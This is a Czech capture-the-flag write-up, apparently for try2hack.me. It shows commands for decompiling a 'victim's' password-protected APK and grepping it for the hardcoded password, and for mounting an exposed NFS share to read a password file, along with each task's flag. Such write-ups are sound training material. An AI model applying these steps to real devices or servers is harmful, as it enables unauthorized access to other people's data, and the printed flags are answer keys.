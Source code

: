 ### Zadání:

Získal jsi přístup k telefonu oběti, přičemž tvým cílem je průnik do v něm nainstalované, ovšem heslem chráněné aplikace [findmypass.apk](./13/findmypass.apk). Heslo pro přístup do uvedené aplikace se shoduje s tajným heslem tohoto kola.

---

### Postup řešení

```bash
docker run -v $(pwd):/apk duolabs/apk2java /apk/findmypass.apk
grep -A5 -R -i pass ./findmypass.apk.src/ | grep -i '"'
```

---

### Flag:

```
Secure1369Pass
```

---
---

## Úkol č. 14

### Zadání:

Správce serveru, na kterém se právě nacházíš, používá ke sdílení dat síťové úložiště. Podaří se ti je objevit a získat tak heslo pro splnění tohoto úkolu?

---

### Postup řešení

```bash
sudo mount -t nfs try2hack.me:$(showmount -e try2hack.me | tail -n 1 | awk '{ print $1 }') ./tmp/
cat ./tmp/Password.txt
sudo umount ./tmp
```

---

### Flag:

```
Ciw27xDowP20eXnv
```

---
---

